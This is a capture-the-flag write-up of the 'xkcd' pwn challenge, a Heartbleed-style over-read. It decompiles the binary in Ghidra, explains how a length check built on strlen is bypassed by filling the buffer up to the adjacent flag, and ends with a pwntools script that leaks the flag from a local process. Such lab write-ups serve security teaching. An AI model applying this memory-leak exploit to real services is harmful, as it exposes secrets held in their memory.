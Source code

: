 # xkcd (pwn)  
For this challenge we are given a binary and also a link to an [xkcd comic](https://xkcd.com/1354/)  
This is a hint, this challenge must contain an exploit related to the Infamous heartbleed vulnerability.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/fe55e959-a7a8-464c-a646-368e0a989ecf)  

Running the program with random input shows the following:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/e50396f8-5efb-439a-a4d6-d33078c4dc00)  


Let's take a look at the binary in ghidra  

```c
undefined8 main(void)

{
  int iVar1;
  FILE *__stream;
  struct ln_ptr;
  char *tkn1;
  char *tkn2;
  size_t reply_len;
  ulong claimed_len;
  struct len;
  
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  bzero(globals + 0x200,0x100);
  __stream = fopen64("flag","r");
  if (__stream == (FILE *)0x0) {
    puts("Could not open the flag.");
    return 0xffffffff;
  }
  fread(globals + 0x200,1,0x100,__stream);
  while( true ) {
    ln_ptr.content = fgetln(stdin,&len);
    tkn1 = strtok((char *)(long)ln_ptr.content,"?");
    iVar1 = strcmp((char *)(long)(int)tkn1,"SERVER, ARE YOU STILL THERE");
    if (iVar1 != 0) {
      puts("MALFORMED REQUEST");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    tkn2 = strtok((char *)0x0,"\"");
    iVar1 = strcmp((char *)(long)(int)tkn2," IF SO, REPLY ");
    if (iVar1 != 0) break;
    tkn2 = strtok((char *)0x0,"\"");
    reply_len = strlen((char *)(long)(int)tkn2);
    memcpy(globals,(char *)(long)(int)tkn2,reply_len);
    strtok((char *)0x0,"(");
    tkn2 = strtok((char *)0x0,")");
    __isoc99_sscanf((long)(int)tkn2,"%d LETTERS",&len.claimed-len);
    globals[len.claimed-len] = 0;
    claimed_len = (ulong)len.claimed-len;
    reply_len = strlen(globals);
    if (reply_len < claimed_len) {
      puts("NICE TRY");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    puts(globals);
  }
  puts("MALFORMED REQUEST");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

## Reversing  
I've already retyped and renamed variables during the reversing process, but let's look at the binary section by section to understand what the binary is doing.  


First the binary reads the flag into the data section of the program. Keep in mind that the flag offset as it will be important later:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8a865c49-1e90-470f-9a16-eebbb379e2cf)  
It is also important that the memory has been zeroed out.  

Now we move to the main loop of the program.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/a1c97f33-a345-404d-b16d-7cef127e4dc1)  
We can see that we first get a line of input from `stdin`. Then the binary uses `strtok` to obtain a token delimited by `?`. This token must be equal to `SERVER, ARE YOU STILL THERE` or else the program exits.  
Thus our input must begin with `SERVER, ARE YOU STILL THERE?`.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/6513ea3c-0029-4039-9609-fd993bd445f2)  
Then we check the next token, delimited by `"`, to be equal to ` IF SO, REPLY `.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/adaf0234-bec0-4b62-8ef6-838abca22b26)  
Then the string that we place in between the other `"` will be copied to the data section, before the flag.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/673bc136-51f3-4627-b670-f47fe0b989d6)  
Finally, we specify (in parenthesis) how many characters we want the binary to respond with. This is a nod to the xkcd comic. However, we look at the data section and use strlen on it.  
If the length of the string in the data section (that we wrote), is less than the amount of characters we are asking for then the program exits.  

## Exploit
`strlen` determines the end of a string with a null character. Since the data scetion to which we are writing is zeroed out, then `strlen` will work properly.  
However, consider how that scetion of memory will look.  
```
| input | 0 | 0 | ... | flag |
```
If we make our input long enough, we will reach the flag, and we can make the length exact such that there is no zero between our input and the flag.  
Thus `strlen` will say the length of our input is actually `len(input)+len(flag)`. We can then request for more characters in the answer and leak the flag.  

```python
from pwn import *

def main():
    io = process("./xkcd")
    payload = b'SERVER, ARE YOU STILL THERE? IF SO, REPLY '
    payload += b'"' + 0x1ff*b'a' + b'|' + b'"'
    payload += b' (526)'
    io.sendline(payload)
    io.interactive()



if __name__ == '__main__':
    main()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/08e45789-8924-4dfa-a429-c4fa9f012f98)






